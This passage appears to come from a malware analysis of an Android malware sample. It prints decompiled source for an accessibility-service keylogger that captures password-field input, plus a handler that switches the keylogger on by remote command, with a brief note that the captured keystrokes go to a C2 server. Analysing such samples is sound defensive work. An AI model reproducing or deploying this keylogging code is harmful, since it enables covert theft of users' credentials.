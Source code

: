```cs
        InjectComponent.viewerActivityVisible = true;
        LifeCycleListener cookiesReaderViewerActivityInterfaceImpl$LifeCycleListener0 = this.lifeCycleListener;
        if(cookiesReaderViewerActivityInterfaceImpl$LifeCycleListener0 != null) {
            cookiesReaderViewerActivityInterfaceImpl$LifeCycleListener0.onResume();
        }
    }

    @Override  // com.sdktools.android.core.injects_core.IScreen
    public void onStop(Activity activity0) {
        super.onStop(activity0);
        activity0.finish();
    }

```

# Keylogger

The malware has the ability to keylog what the user enters such as `password` or any `edittext` contains a `hint`. Then send keylogging to the C2 server.

```cs
 if(accessibilityEvent0.isPassword()) {
                if(!s1.contains("•") && !s1.contains("*")) {
                    keyLoggerModel0.setText(s1);
                    return false;
                }

                if(s1.equals(accessibilityEvent0.getSource().getHintText())) {
                    keyLoggerModel0.setText("");
                    return false;
                }

                int v = keyLoggerModel0.getText().length();
                if(s1.length() > v) {
                    keyLoggerModel0.addToText(Character.toString(((char)s1.charAt(s1.length() - 1))));
                    return false;
                }

                keyLoggerModel0.removeLastFromText();
                return false;
            }

            keyLoggerModel0.setText(s1);
        }

        return false;
    }

    @Override  // com.sdktools.android.bot.SdkComponent
    public void onSyncEvent(JsonObject jsonObject0) {
        super.onSyncEvent(jsonObject0);
        Boolean boolean0 = JsonUtils.hasObject(jsonObject0, "enable_keylogger") ? Boolean.valueOf(jsonObject0.get("enable_keylogger").getAsBoolean()) : null;
        if(boolean0 != null) {
            SharedPrefHelper.setIsKeyLoggerEnabled(this.context(), boolean0.booleanValue());
        }
    }

    public void onWindowStateChanged() {
        if(this.candidateToPass.size() > 0) {
            this.isRequestInProgress.set(true);
```